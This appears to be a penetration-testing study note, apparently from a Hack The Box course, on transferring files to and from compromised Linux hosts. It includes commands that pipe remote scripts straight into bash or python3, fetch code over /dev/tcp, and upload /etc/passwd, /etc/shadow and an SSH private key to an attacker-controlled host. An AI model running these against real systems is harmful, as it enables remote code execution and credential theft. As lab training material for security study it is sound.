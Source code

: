 ```yaml
---
title: File Transfer - Linux
draft: false
tags:
---
```


# Download to Linux
## Base64



First use md5sum to check the file we want to transfer:

```shell-session
[!bash!]$ md5sum id_rsa

4e301756a07ded0a2dd6953abf015278  id_rsa
```

Now base64 encode the target:

```shell-session
[!bash!]$ cat id_rsa |base64 -w 0;echo

LS0tLS1CRU<snip>
```

On target system, decode base64 string:

```shell-session
[!bash!]$ echo -n 'LS0tLS1<snip>' | base64 -d > id_rsa
```

After transferring, confirm the content with md5sum:

```shell-session
[!bash!]$ md5sum id_rsa

4e301756a07ded0a2dd6953abf015278  id_rsa
```

## wget


```shell-session
[!bash!]$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

## cURL


```shell-session
[!bash!]$ curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```


## Fileless

We don't have to download. We can use the memory. 
### Fileless cURL

```shell-session
[!bash!]$ curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

### Fileless wget

```shell-session
[!bash!]$ wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3

Hello World!
```

## Bash

First connect to the target webserver:

```shell-session
[!bash!]$ exec 3<>/dev/tcp/10.10.10.32/80
```

Send http get request:

```shell-session
[!bash!]$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```


Print the response:

```shell-session
[!bash!]$ cat <&3
```

## SSH

```shell-session
[!bash!]$ scp plaintext@192.168.49.128:/root/myroot.txt . 
```

# Upload to Linux

Sometimes we need to upload files from our target machine to attack host. 

## Upload Server

Let's see how we can configure uploadserver module to use HTTPs. 

Spin up Web server:

```shell-session
[!bash!]$ sudo python3 -m pip install --user uploadserver

Collecting uploadserver
  Using cached uploadserver-2.0.1-py3-none-any.whl (6.9 kB)
Installing collected packages: uploadserver
Successfully installed uploadserver-2.0.1
```

Now we will create a certificate:

```shell-session
[!bash!]$ openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

Generating a RSA private key
................................................................................+++++
.......+++++
writing new private key to 'server.pem'
-----
```

Let's start a web server:

```shell-session
[!bash!]$ mkdir https && cd https
```

```shell-session
[!bash!]$ sudo python3 -m uploadserver 443 --server-certificate ~/server.pem

File upload available at /upload
Serving HTTPS on 0.0.0.0 port 443 (https://0.0.0.0:443/) ...
```

from our compromised machine, let's upload the `/etc/passwd` and `/etc/shadow` files:

```shell-session
[!bash!]$ curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

## Python

For Python3:

```shell-session
[!bash!]$ python3 -m http.server

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

For Python2:

```shell-session
[!bash!]$ python2.7 -m SimpleHTTPServer

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

## PHP

```shell-session
[!bash!]$ php -S 0.0.0.0:8000

[Fri May 20 08:16:47 2022] PHP 7.4.28 Development Server (http://0.0.0.0:8000) started
```

## Ruby

```shell-session
!bash!]$ ruby -run -ehttpd . -p8000

[2022-05-23 09:35:46] INFO  WEBrick 1.6.1
[2022-05-23 09:35:46] INFO  ruby 2.7.4 (2021-07-07) [x86_64-linux-gnu]
[2022-05-23 09:35:46] INFO  WEBrick::HTTPServer#start: pid=1705 port=8000
```

## SCP

```shell-session
[!bash!]$ scp /etc/passwd htb-student@10.129.86.90:/home/htb-student/

htb-student@10.129.86.90's password: 
passwd    
```

For copying entire directory:

```shell-session
jadu101@htb[/htb]$ scp -r ptunnel-ng ubuntu@10.129.202.64:~/
```